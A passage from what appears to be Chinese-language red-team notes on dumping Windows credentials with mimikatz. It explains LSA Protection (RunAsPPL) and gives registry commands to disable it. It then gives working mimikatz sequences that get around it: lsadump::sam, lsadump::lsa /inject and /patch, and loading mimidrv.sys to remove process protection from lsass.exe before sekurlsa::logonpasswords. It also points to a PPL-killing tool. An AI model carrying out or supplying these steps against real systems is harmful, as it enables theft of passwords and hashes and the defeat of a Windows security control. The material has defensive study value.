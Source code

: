 ```
mimikatz # lsadump::sam /sam:c:\temp\sam.hive /system:c:\temp\system.hive
```

## LSA Protection

LSA 包含本地安全机构服务器服务 (LSASS) 进程，可以验证用户的本地和远程登录，并强制本地安全策略。Windows 8.1、Windows Server 2012 操作系统和更高版本为 LSA 提供额外的保护，以防止非受保护的进程读取内存和代码注入。如果 LSASS 被标记为 Protected Process Light (PPL)，则保护已打开。详情见微软官方文档：[配置其他 LSA 保护](https://learn.microsoft.com/zh-cn/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)

开启 LSA 保护：（重启生效）

```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "RunAsPPL" /t REG_DWORD /d "00000001" /f
```

禁用 LSA 保护：（重启生效）

```
reg delete HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA v RunAsPPL f
```

> 当此设置与“UEFI 锁定”和“安全启动”一起使用时，由于禁用“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa”注册表项不起作用，因此可以实现额外的保护。

在开启 LSA 保护的情况下，此时 mimikatz 无法从 LSASS 进程中转储凭据，报错示例：

```
mimikatz # sekurlsa::msv
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonPasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```

使用 mimikatz - lsadump::lsa 模块（推荐），可以在本地安全认证（Local Security Authority）上直接读取凭据：

```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject
mimikatz # lsadump::lsa /patch
```

mimikatz 在 2013 年 10 月就已支持绕过 LSA Protection。mimikatz 中的 mimidrv.sys 驱动程序，可从 lsass.exe 进程中删除 LSA 保护：（可能不成功，建议使用 `lsadump::lsa` 模块）

```
mimikatz# privilege::debug
mimikatz# !+
mimikatz# !processprotect /process:lsass.exe /remove
mimikatz# sekurlsa::logonpasswords
......
mimikatz# !-
```

其它绕过或关闭 LSA 保护的工具：[https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)
